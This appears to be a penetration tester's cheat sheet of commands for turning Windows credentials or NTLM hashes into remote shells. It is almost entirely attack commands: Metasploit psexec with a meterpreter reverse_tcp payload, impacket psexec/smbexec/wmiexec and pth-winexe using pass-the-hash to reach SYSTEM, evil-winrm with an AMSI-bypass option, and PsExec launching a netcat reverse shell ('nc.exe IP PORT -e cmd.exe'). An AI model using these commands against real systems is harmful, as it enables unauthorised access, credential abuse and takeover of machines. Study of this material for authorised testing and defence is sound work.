 # privesc tools

## check if win-logon-creds are working

### msf

* `use exploit/windows/smb/psexec`
    * `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
    * `SHOW TARGETS` > `set TARGET X`
* `use exploit/windows/smb/psexec_psh`

**Note:** psexec & evil-winrm uses `port 5985` (powershell remote access)

### psexec | smbexec | wmiexec

NOTE: psexec, smbexec will give SYSTEM shell. wmiexec will give user shell.

```bash
impacket-psexec DOMAIN/USER:['PASS']@IP [-hashes :NTLMHASH]
impacket-smbexec DOMAIN/USER:['PASS']@IP [-hashes :NTLMHASH]
impacket-wmiexec DOMAIN/USER:['PASS']@IP [-hashes :NTLMHASH]
```

### evil-winrm

**NOTE:** evil-winrm usually gives **medium integrity shells** for added administrator accounts. Even if new account has
Administrator permissions, cannot actually perform administrative actions with it.

```bash
# only USER, no DOMAIN needed
evil-winrm -i IP -u USER [-H NT-HASH | -p PASS]

# custom options
PS> menu
[+] Dll-Loader
[+] Donut-Loader
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
```

### winexe

```bash
winexe -U 'DOMAIN/USER%PASS' //IP cmd.exe
```

### pth-winexe

```bash
pth-winexe -U 'DOMAIN/USER%HASH' //IP cmd.exe
# --system needs local admin hash
pth-winexe [--system] -U 'administrator%NTLM:HASH' //IP cmd.exe
```

## PsExec.exe

```bash
PS> .\PsExec64.exe -accepteula -i -s SHELL.exe
# i: Run process interactively
# s: Run remote process in the System account.

> PSExec64.exe -i -u "nt authority\local service" SHELL.exe
# u: Run process as user-account <>

# Run executable with a different user:pass
PS> .\PsExec.exe -accepteula -u USER -p PASS nc.exe IP PORT -e cmd.exe
```
